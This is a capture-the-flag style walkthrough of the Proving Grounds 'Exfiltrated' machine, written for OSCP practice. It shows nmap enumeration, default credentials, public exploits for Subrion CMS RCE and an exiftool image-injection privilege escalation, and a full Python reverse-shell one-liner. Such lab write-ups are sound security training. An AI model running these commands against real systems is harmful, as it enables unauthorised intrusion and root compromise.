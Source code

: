 ```yaml
---
title: Proving Grounds - Exfiltrated
date: 2022-08-08 12:37:00 -500 
categories: [OSCP Prep,Proving Grounds]
tags: [oscp,linux]
---
```


# Exfiltrated Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|192.168.x.163|Exfiltrated|Linux|

## Path to Exploitation
This is a Linux machine running an HTTP server and has SSH available. We will identify the vulnerable web-application and using a publicly available exploit and default credentials we obtain a web-shell and get command execution. Once on the machine we identify a scheduled script that takes uploaded images and executes the exiftools command on them. We can leverage this by uploading a .jpg file with an embedded reverse shell payload.

# Enumeration

## Full Port Scan

```bash
$ nmap 192.168.109.163 -p- -oA Exfiltrated/nmap/full-port --open -Pn -vv
```

Which Resulted in:

|PORT|SERVICE|
|----|-------|
|22|ssh|
|80|http|

## Service Scan

```bash
$ nmap 192.168.109.163 -p 22,80 -sC -sV -oA Exfiltrated/nmap/service-scan -Pn
```

Which Resulted in:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|22|ssh|8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)|
|80|http|httpd 2.4.41 ((Ubuntu))|

# Website Enumeration

![Web Application](/assets/ProvingGrounds/Exfiltarted/site-landing-page.png "Site Page")

We see the server is running Subrion CMS 4.2.1 which has an [Authenticated RCE](https://www.exploit-db.com/exploits/49876). We can guess the default credentials admin:admin and see that we can now login to the application

![Valid Credentials](/assets/ProvingGrounds/Exfiltarted/valid-creds.png "Valid Credentials")

We can now use the exploit and supply it the credentials for the application

```bash
$ python3 exploit.py -u http://192.168.109.163/panel/ -l admin -p admin 
```

And we see that we have command execution on the box

![Command Execution](/assets/ProvingGrounds/Exfiltarted/command-exec.png "Confirmed Command Exec")

We can get a reverse shell by setting up a listener and running the following python command
```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.109",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

# Privilege Escalation
We inspect the content of /opt/image-exif.sh and see the following code.

![Script Content](/assets/ProvingGrounds/Exfiltarted/script-content.png "Script Content")

We see that the code is taking images from the site's upload directory and running exiftools on it. We can inject a malicious command into a jpg file attempt to get a reverse shell when exfitools executes. We can use the exploit located [here](https://www.exploit-db.com/exploits/50911) to generate our malicious jpg.

```bash
$ python3 exif-exploit.py -s 192.168.49.109 443
```

![Exploit](/assets/ProvingGrounds/Exfiltarted/exploit.png "Exploit")

We now upload our image to the site's upload directory, setup a listener and wait to catch the shell

![Root Shell](/assets/ProvingGrounds/Exfiltarted/root-shell.png "Root Shell")

And we now have a root shell

